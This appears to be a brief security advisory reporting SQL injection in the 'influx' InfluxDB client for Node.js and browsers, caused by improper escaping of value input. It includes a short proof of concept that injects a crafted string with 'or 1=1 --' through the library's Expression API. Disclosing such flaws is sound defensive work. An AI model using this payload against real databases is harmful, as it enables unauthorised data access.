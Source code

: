 ## description ##

 influx is an InfluxDB Client for Node.js and Browsers.

 Affected versions of this package are vulnerable to SQL Injection due to improperly escaping value input.

 ## POC ##

 ```
 const influx = require('influx')
 const exp = new influx.Expression();
 exp.tag('symbol').equals.value("GAZP()\\' or 1=1 --").toString()
 ```